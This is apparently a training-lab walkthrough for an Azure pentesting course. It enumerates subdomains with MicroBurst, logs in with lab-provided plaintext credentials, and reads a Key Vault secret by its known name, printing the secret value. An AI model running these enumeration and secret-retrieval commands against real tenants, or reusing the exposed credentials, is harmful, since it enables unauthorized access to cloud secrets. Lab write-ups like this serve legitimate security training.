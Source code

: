 - We will start by fuzzing for subdomains to find the exact Key Vault name.
```powershell
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP/MicroBurst> Import-Module ./MicroBurst.psm1
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP/MicroBurst> Invoke-EnumerateAzureSubDomains -Base aspdkgthcoym2597376
```

- This command supposedly finds the proper Key Vault name, however for the lab we just need to use the provided Key Vault name.

- We can authenticate to Azure with the provided credentials.
```powershell
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> $password = ConvertTo-SecureString 'BD8Uky4PG#Qwcex' -AsPlainText -Force                        
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> $creds = New-Object System.Management.Automation.PSCredential('AS-dzgliaeupr2597371@azredlabs.onmicrosoft.com', $password)
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> Connect-AzAccount -Credential $creds

<snip>
```

- If we enumerate for accessible Azure Resources we will not find anything.
```powershell
Get-AzResource
```

- We can instead directly access the hidden Key Vault by providing its name.
```powershell
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> Get-AzKeyVaultSecret -VaultName aspdkgthcoym2597376

Vault Name   : aspdkgthcoym2597376
Name         : asvisojtefxc2597414
Version      : 
Id           : https://aspdkgthcoym2597376.vault.azure.net:443/secrets/asvisojtefxc2597414
Enabled      : True
Expires      : 
Not Before   : 
Created      : 04/08/2024 17:30:14
Updated      : 04/08/2024 17:30:14
Content Type : 
Tags         :
```

- We can now retrieve the Secret of the Key Vault.
```powershell
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> Get-AzKeyVaultSecret -VaultName aspdkgthcoym2597376 -Name asvisojtefxc2597414 -AsPlainText
8453BD115234E2264D98E03CA3267145E307865B26CE2A8035360B5F30586053
```